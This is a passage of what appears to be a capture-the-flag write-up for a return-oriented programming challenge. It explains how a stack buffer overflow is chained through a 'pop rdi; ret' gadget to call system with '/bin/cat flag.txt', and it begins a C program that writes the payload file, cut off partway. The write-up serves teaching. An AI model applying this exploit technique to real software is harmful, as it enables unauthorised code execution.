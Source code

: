 <text x="250" y="20">40</text>
<text x="300" y="20">48</text>
<text x="350" y="20">56</text>
<text x="400" y="20">64</text>
<text x="100" y="50">buffer</text>
<text x="225" y="50">rbp</text>
<text x="275" y="50">reta</text>
<text x="325" y="50">(pop)</text>
<text x="375" y="50">(ret)</text>
<text x="412" y="50">...</text>
<text x="125" y="100">garbage</text>
<text x="275" y="100">0x400883</text>
<text x="325" y="120">0x601060</text>
<text x="375" y="100">0x400810</text>
</g>
</svg>


_pwnme_ still has the same vulnerability.
We fill up the stack buffer with 32 bytes of garbage, followed by 8 bytes for the stored `rbp` register.
Next, we overwrite the return address with the address to the ROP gadget at `0x00400883`.
The gadget reads 8 bytes from the stack with `pop rdi` which means we write the address `0x00601060` of the string "/bin/cat flag.txt" next.
The second instruction in the gadget is a `ret` instruction, so we can write the next address to jump to on the stack.
We can jump into _usefulFunction_ at `0x00400810` where the call instruction to _system_ is located.
Alternatively, we can jump directly to _system_ by getting its address with `is~system`.

ROP is all about sequencing precise jumps to execute a few instructions and jump on.
Kind of bunny hopping all over the executable code of a program.
With enough executable code available it is Turing complete, i.e., any possible calculation can be performed.
The C standard library "libc" is big enough and used by a lot of central components of most operating systems.

Here's a C program creating the input file.

{{< highlight C >}}
#include <stdio.h>
#include <stdint.h>

int main(){
	FILE *fd = fopen("data", "wb");

	// useless content of the stack buffer, 32 bytes large
	for(int i=0; i<32; ++i){
		fputc(0xAA, fd);
	}
	// useless 8 bytes to overwrite rbp
	uint64_t rbp = 0xCAFEBABE;
	fwrite(&rbp, sizeof(rbp), 1, fd);

	// gadget: pop rdi; ret
	uint64_t poprdi = 0x00400883;
	fwrite(&poprdi, sizeof(poprdi), 1, fd);
